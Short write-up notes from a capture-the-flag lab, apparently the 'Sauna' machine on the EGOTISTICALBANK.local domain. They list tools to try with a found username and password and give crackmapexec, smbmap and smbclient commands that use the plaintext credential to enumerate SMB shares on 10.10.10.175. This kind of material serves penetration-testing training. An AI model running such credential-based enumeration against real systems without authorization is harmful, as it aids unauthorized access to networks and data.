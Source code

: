 
We have some things we can do with a user and password and we don't know what privileges does it have.

- [ ] smb
- [ ] secretsdump
- [ ] crackmapexec
- [ ] ldapdump


```
crackmapexec smb 10.10.10.175 -u fsmith -p 'Thestrokes23' --shares
```
![[Pasted image 20240501055403.png]]

To get more better understanding
```
smbmap -u fsmith -d EGOTISTICALBANK.local -p 'Thestrokes23' -H 10.10.10.175
```
![[Pasted image 20240501062507.png]]



```
smbclient //10.10.10.175/print$ -U 'fsmith' --password 'Thestrokes23'
```
![[Pasted image 20240501055725.png]]

It seems interesting so let's enumerate
![[Pasted image 20240501055840.png]]


![[Pasted image 20240501060920.png]]


